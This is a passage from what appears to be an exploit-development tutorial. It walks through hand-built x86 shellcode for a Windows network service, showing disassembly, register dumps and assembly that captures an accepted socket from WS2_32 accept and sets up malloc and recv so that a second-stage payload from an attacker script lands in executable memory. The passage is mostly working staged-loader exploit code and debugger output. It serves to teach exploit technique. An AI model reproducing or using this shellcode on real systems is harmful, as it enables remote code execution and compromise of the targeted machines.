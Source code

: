 ``` txt
00B5FFE3   50               PUSH EAX
00B5FFE4   FFD3             CALL EBX
00B5FFE6   B3 5C            MOV BL,5C
00B5FFE8   6A 7F            PUSH 7F
00B5FFEA   57               PUSH EDI
00B5FFEB   FFD3             CALL EBX
00B5FFED   B3 24            MOV BL,24
00B5FFEF   57               PUSH EDI
00B5FFF0   FFD3             CALL EBX
```

By now you'll notice that the last call blocks until our attacker script connects the second time. After this, the registers look like this:

``` txt
EAX 000000A4
ECX 0024A888
EDX 00000009
EBX 00403424 <JMP.&WS2_32.accept>
ESP 00B5FF4C
EBP 42424242
ESI 42424242
EDI 00000084
EIP 00B5FFF3
O 0  LastErr ERROR_SUCCESS (00000000)
```

Another round of success, only this time we have a meaningful value in `EAX` that we need to keep. This is the _accept socket_ handle, which is the handle that points to the client that has just connected. This is the handle we need to pass to `recv` in order pull data from the attacker. We don't need our bind socket handle any more so the first thing we do is persist this in `EDI`.

``` txt
MOV EDI, EAX          ; Stash the new accept socket
```

The final hurdle is the call to `recv`, but this comes with a caveat: we need to give `recv` a handle to an area of memory that is readable, writable and executable (RWX). Originally I had built this exploit to just reuse a part of the stack, but that didn't port too well to other operating system versions so instead, I thought allocating memory and changing its protection would make more sense. Let's get the `malloc` function ready, the abuse the socket handle value in `EAX` to create a sane buffer size which we push twice (one as a param to `malloc` and the other to persist the value across calls).

As this point we're out of bytes in our first block (actually, just before making the call we run out of bytes). So we need to jmp back to the start of our shellcode with a `JMP` instruction and carry on from there:

``` txt
MOV BX,3DD4           ; Set EBX up for the `malloc` call
MOV AH,AL             ; use the socket handle as a size fudger
PUSH EAX              ; push for size persistence for later use
CALL EBX              ; Invoke `malloc`
JMP <address>         ; Jmp back to the start of block 2
```
